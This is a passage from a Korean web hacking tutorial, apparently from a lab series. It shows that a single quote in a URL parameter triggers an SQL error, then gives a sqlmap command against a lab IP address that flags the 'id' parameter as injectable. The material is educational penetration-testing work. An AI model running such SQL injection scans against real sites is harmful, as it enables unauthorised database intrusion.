 -'을 입력했을 때 SQL 형식 관련 에러가 발생하는 것을 볼 수 있습니다.<br>

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">sqlmap&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>u&nbsp;http:<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#308ce5">192.</span><span style="color:#308ce5">68.</span><span style="color:#308ce5">37.</span><span style="color:#308ce5">133</span><span style="color:#ff3399">/</span>cat.php?id<span style="color:#0086b3"></span><span style="color:#ff3399">=</span>1’</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

<div align="center" >
<img src="/Art of Web Hacking/Chapter18/003.png" width="520" height="320"> <br>
</div>스샷. 3<br>
- 위 명령어를 통해 sqlmap을 실행시켜 인젝션 공격이 가능한 부분을 탐색,<br>굵게 표시된 부분을 보니 id 파라미터가 들어가는 곳이 취약한가 봅니다 :)

<div align="center" >
<img src="/Art of Web Hacking/Chapter18/004.png" width="520" height="320"> <br>
</div>스샷. 4<br>